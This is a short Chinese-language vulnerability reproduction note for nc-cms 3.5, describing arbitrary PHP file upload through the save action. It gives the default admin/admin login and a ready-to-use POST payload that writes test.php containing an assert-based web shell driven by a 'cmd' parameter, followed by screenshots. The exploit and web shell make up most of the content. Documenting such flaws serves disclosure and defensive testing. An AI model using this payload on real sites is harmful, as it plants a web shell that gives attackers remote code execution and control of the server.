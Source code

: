 ## 1. 漏洞介绍

nc-cms 3.5中的lib / NCCms.class.php允许通过index.php？action = save name和editordata参数上传.php文件。

源码：

[There is an vulnerability in the filesystem that can get a webshell · Issue #14 · gnat/nc-cms · GitHub](https://github.com/gnat/nc-cms/issues/14)

## 2. 漏洞复现

登录：admin/admin

payload：

```php
http://…………/nc-cms/index.php?action=save&ref
POST
name=test.php&editordata=<?php assert($_GET['cmd']);?>
```

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312282010269.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312282010887.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312282010831.png)
